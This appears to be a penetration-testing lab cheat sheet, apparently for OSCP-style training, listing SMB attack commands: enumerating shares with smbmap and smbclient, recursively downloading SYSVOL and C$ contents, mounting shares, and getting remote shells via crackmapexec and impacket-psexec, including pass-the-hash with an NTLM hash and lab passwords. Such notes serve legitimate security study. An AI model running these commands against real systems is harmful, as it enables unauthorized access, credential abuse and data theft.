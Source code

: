 ### smb list shares
```
smbmap -H 192.168.238.220 -d skylark.com -u backup_service -p It4Server
smbclient -L 192.168.188.222 -U skylark.com/Administrator%MusingExtraCounty98
```
smb list share with no credentials
```
smbmap -H 192.168.200.172 -u guest -p ""
```
### smb connect to share
```
smbclient //172.16.196.13/IPC$(sharename) -U domain/offsec%lab -port
smbclient //192.168.188.222/IPC$ -U skylark.com/Administrator%MusingExtraCounty98
```
smb connect share with no credential
```
smbclient -N  //192.168.161.172/DocumentsShare
smbclient //192.168.200.172/DocumentsShare -U vault.offsec/guest
```
### smb download
```
Download directory:
kali: smbget -R smb://192.168.236.249/C$/staging/.git -U relia.com/damon%pass
kali: pth-smbget --dots --recursive -U oscp.exam/web_svc%Diamond1 smb://10.10.77.152/SYSVOL/oscp.exam/scripts

smbclient
1. smbclient //10.10.77.152/SYSVOL -U oscp.exam/web_svc%Diamond1
2. cd to the path where shows the directory that you wanna download
3. recurse ON
4. mget *
5. type y to all prompts
```
### smb mount
```
sudo mount -t cifs -o port=4455 //10.11.0.22/Data -o username=Administrator,password=Qwerty09! /mnt/win10_share
```
### smb commands
```
get file
put file
pwd
ls
```

### SMB shell 
Admin share and C share needs to be writable
```
crackmapexec smb 10.10.139.11 -u backup_service -p It4Server --shares(check if credential has admin right)
kali: impacket-psexec backup_service:It4Server@10.10.139.11
kali: impacket-psexec tom_admin@10.10.118.152 -hashes aad3b435b51404eeaad3b435b51404ee:4979d69d4ca66955c075c41cf45f24dc
```
